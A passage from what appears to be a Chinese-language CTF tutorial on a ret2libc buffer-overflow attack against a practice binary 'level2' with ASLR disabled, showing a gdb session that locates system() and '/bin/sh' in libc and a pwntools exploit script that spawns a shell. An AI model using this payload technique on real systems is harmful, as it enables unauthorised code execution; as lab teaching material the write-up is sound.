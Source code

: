 如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。

```
#!bash
$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
….
(gdb) break main
Breakpoint 1 at 0x8048430
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level2 

Breakpoint 1, 0x08048430 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
warning: Unable to access target memory at 0xb7fc8500, halting search.
1 pattern found.
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"
```

我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取libc.so在内存中的起始位置，接下来我们可以通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。下面我们开始写exp：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xb7e5f460
binshaddr=0xb7f81ff8

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()
```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。下面我们测试一下exp：

```
#!python
$ python exp2.py 
[+] Started program './level2'
[*] Switching to interactive mode
$ whoami
mzheng
```
